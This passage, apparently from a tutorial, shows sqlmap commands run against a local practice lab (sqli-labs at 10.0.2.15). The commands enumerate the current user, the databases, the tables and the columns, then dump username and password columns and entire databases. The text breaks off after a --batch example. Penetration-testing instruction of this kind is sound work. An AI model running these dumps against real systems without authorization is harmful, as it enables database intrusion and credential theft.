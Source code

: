 
```
sqlmap -u <http://10.0.2.15/sql/Less-1/?id=1 --technique=B --dbms=MySQL --level=1 --risk=1
```

You can use specific techniques using --technique=`<prefer letter of technique>`.

Some sqlmap commands with their uses are listed below:

```
sqlmap -u <http://10.0.2.15/sql/Less-1/?id=1 --current-user
```

To find the database’s current user we can use — current-user argument.

```
sqlmap -u <http://10.0.2.15/sql/Less-1/?id=1 --dbs
```

We can use — dbs parameter to find all the databases present.

---

How to dump the table?

```
sqlmap -u <http://10.0.2.15/sql/Less-1/?id=1 -D <databasename> --tables
```

We can use — tables argument to list all the tables in a database given.

```
sqlmap -u <http://10.0.2.15/sql/Less-1/?id=1 -D <databasename> -T <table name> --dump
```

To dump the table of a given database we can use — dump with -T and -D where T stands for table name and D stands for the Database name.

```
sqlmap -u <http://10.0.2.15/sql/Less-1/?id=1 -D <databasename> -T <table name> --columns
sqlmap -u <http://10.0.2.15/sql/Less-1/?id=1 -D <databasename> -T <table name> -C "username,password" --dump
```

We can also dump specific columns for that first we need to find the columns’ names using — columns and after that, we can use -C argument to supply the column name.

There is an easy way to use sqlmap this is mostly focused on new users and the argument for this is — wizard.

```
sqlmap --wizard
```

This will help us use sqlmap in an easy way.

```
sqlmap -u <http://10.0.2.15/sql/Less-1/?id=1 --dump-all
```

We can also use — dump-all to dump everything but this will take a long time and is not suggested.

```
sqlmap -u <http://10.0.2.15/sql/Less-9/?id=2 --batch
```
